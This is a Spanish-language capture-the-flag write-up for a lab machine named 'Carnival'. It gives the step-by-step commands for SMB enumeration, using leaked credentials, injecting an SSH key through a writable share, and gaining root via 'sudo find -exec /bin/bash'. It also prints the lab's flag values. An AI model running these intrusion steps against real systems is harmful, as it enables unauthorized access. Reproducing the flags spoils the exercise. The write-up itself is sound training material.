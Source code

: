 # Manual de Resolución - Máquina "Carnival"

---

# 🧬 1. **Reconocimiento**

### 🔍 Escaneo de puertos:
```bash
sudo nmap 10.10.56.58 -n -Pn -sC -sV -sS --min-rate 5000 -oN scan1.txt
```

### 🌟 Resultados principales:
| Puerto | Servicio | Versión                       |
|:------:|:--------:|:-----------------------------:|
| 22/tcp | SSH      | OpenSSH 7.9p1 Debian 10         |
| 139/tcp | Samba   | Samba 3.X - 4.X (WORKGROUP)     |
| 445/tcp | Samba   | Samba 4.9.5-Debian              |

---

# 🧬 2. **Enumeración**

### 🔎 Enumeración de recursos SMB:
```bash
smbclient -L \\10.10.56.58\\ -N
```

👌 Shares encontrados:
- `private`
- `pedro`
- `IPC$` (por defecto)

### 📂 Acceso a share `private`:
```bash
smbclient \\\\10.10.56.58\\private -N
```

Archivo encontrado:
- `creds.bak`

Descargado con:
```bash
get creds.bak
```

Contenido:
```
n0m30olv1d0123!
```

---

# 🧬 3. **Explotación inicial**

### 🚪 Acceso al share `pedro`:
```bash
smbclient \\\\10.10.56.58\\pedro -U pedro
```

Archivos encontrados:
- `.bash_logout`
- `.bashrc`
- `.profile`
- `user.txt` (**primer flag**)

Descarga masiva:
```bash
prompt OFF
mget *
```

Flag `user.txt`:
```
ab740cf8182f14d13f608e372a697bb1
```

---

# 🧬 4. **Movimiento lateral**

### 🔒 Intento de acceso SSH:
```bash
ssh pedro@10.10.56.58
```

Resultado: ❌ `Permission denied (publickey)`

---

# 🧬 5. **Estrategia alternativa (Key Injection)**

### 🔑 Creación de par de claves SSH:
```bash
ssh-keygen -t rsa -b 4096 -f carnival_pedro_key
```

Preparación de `authorized_keys`:
```bash
cp carnival_pedro_key.pub authorized_keys
```

Subida mediante `smbclient`:
```bash
smbclient \\\\10.10.56.58\\pedro -U pedro
put authorized_keys
```

---

# 🧬 6. **Acceso SSH exitoso**

Conexión usando clave privada:
```bash
ssh -i carnival_pedro_key pedro@10.10.56.58
```

Resultado: ✅ Shell como `pedro`.

---

# 🧬 7. **Escalada de privilegios**

### 🔍 Enumeración de permisos sudo:
```bash
sudo -l
```

Resultado:
```
(ALL) NOPASSWD: /usr/bin/find
```

### 🚀 Escalada utilizando `find`:
```bash
sudo /usr/bin/find . -exec /bin/bash \;
```

Verificación:
```bash
whoami
# Resultado: root
```

---

# 🧬 8. **Captura de bandera de root**

### 📂 Navegación hacia `/root/`:
```bash
cd /root
ls
cat root.txt
```

Flag `root.txt`:
```
25b5d447d35f3323f711a741cc80c2e2
```

---

# 🌿 Resumen general

| Fase                         | Resultado alcanzado             |
|:-----------------------------:|:-------------------------------:|
| **Reconocimiento**            | Descubrimiento de servicios.    |
| **Enumeración**               | Acceso anónimo en SMB.           |
| **Explotación inicial**       | Credenciales extraídas.          |
| **Movimiento lateral**        | Inyección de clave SSH.          |
| **Acceso usuario**            | Shell como `pedro`.              |
| **Escalada de privilegios**   | Root mediante abuso de `find`.   |
| **Captura de flags**          | `user.txt` y `root.txt` capturadas. |

---

# 🔢 Conclusión

Esta máquina demostró la importancia de:
- Configuración segura de shares de Samba.
- Protección de credenciales sensibles.
- Restricción adecuada de comandos `sudo`.
- Correcta gestión de llaves SSH.

